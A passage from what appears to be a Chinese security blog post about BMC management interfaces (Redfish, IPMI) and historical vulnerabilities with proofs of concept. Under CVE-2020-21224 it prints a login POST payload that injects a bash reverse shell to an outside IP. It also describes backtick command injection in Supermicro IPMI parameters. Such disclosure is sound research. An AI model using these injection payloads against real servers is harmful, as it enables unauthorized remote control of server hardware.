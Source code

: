 RedFish 标准由 DMTF 组织的 SPMF 论坛维护，它的提出者与 IPMI 的提出者几乎一样。可以说是下一代云服务器带外管理接口。开发 Redfish 的主要原因之一是解决 IPMI 遗留的无法有效解决的安全需求。Redfish 的第 1 版侧重于服务器，为 IPMI - over - LAN 提供了一个安全、多节点的替代品。随后 的 Redfish 版本增加了对网络接口 (例如 NIC、 CNA 和 FC HBA)、PCIe 交换、本地存储、 NVDIMM、多功能适配器和可组合性以及固 件更新服务、软件更新推送方法和安全特权映射的管理。

Redfish 是一种基于 HTTPs 服务的管理标准，利用 RESTful 接口实现设备管理。每个 HTTPs 操作都以 UTF-8 编码的 JSON 的形式，提交或返回一个资源。就像 Web 应用程序向浏览器返回 HTML 一样，RESTful 接口会通过同样的传输机制 (HTTPS)，以 JSON 的形式向客户端返回数据，用于现有客户端应用程序和基于浏览 器的 GUI。

#### [](#API-举例 "API 举例")API 举例

在 Redfish 中，所有资源都是从服务入口点（ root ）链接的，服务入口点始终位于 URL： /redfish/v1。添加用户`/redfish/v1/AccountService/Account`:

![](https://delikely.github.io/2021/06/22/BMC-%E5%8E%86%E5%8F%B2%E6%BC%8F%E6%B4%9E%E6%B1%87%E6%80%BB/image-20210611124042688.png)

### [](#含POC的漏洞（部分） "含POC的漏洞（部分）")含 POC 的漏洞（部分）

#### [](#CVE-2020-21224-浪潮-NF5266M5-Cluster-Management-System-命令注入 "CVE-2020-21224 :  浪潮 NF5266M5  Cluster Management System 命令注入")[浪潮 NF5266M5 Cluster Management System 命令注入](https://cve.mitre.org/cgi-bin/cvename.cgi?>CVE-2020-21224</a> : <a target=)

![](https://delikely.github.io/2021/06/22/BMC-%E5%8E%86%E5%8F%B2%E6%BC%8F%E6%B4%9E%E6%B1%87%E6%80%BB/1573267238057.png)

用户登录页面中的用户和密码字段存在命令注入漏洞。后台的处理代码类似。

```
var1 = `grep xxxx`
var2 = $(python -c "from crypt import crypt;print crypt('$passwd','$1$$var1')")
```

![](https://delikely.github.io/2021/06/22/BMC-%E5%8E%86%E5%8F%B2%E6%BC%8F%E6%B4%9E%E6%B1%87%E6%80%BB/1573268245311.png)

发送 POST 消息实现反弹 shell。

```
op=login&username=1 2\',\'1\'\);  `bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.16.11.81%2F80%200%3E%261`
```

![](https://delikely.github.io/2021/06/22/BMC-%E5%8E%86%E5%8F%B2%E6%BC%8F%E6%B4%9E%E6%B1%87%E6%80%BB/1573268596272.png)

#### [](#CVE-2019-19642-SuperMicro-IPMI-命令注入 "CVE-2019-19642: SuperMicro IPMI 命令注入")[SuperMicro IPMI 命令注入](https://cve.mitre.org/cgi-bin/cvename.cgi?>CVE-2019-19642</a>: <a target=)

基于 IPMI 的虚拟媒体服务存在命令注入漏洞，ShareHost 、ShareName、PathToimg 等参数均存在命令注入问题，可以使用反引号 “`” 注入任意命令。

![](https://delikely.github.io/2021/06/22/BMC-%E5%8E%86%E5%8F%B2%E6%BC%8F%E6%B4%9E%E6%B1%87%E6%80%BB/superMicro%20impi%20command%20inject.jpg)

#### [](#CVE-2020-15046-SuperMicro-IPMI-03-40-CSRF-添加管理员用户 "CVE-2020-15046: SuperMicro IPMI 03.40 - CSRF(添加管理员用户)")[SuperMicro IPMI 03.40 - CSRF(添加管理员用户)](https://cve.mitre.org/cgi-bin/cvename.cgi?>CVE-2020-15046</a>: <a target=)
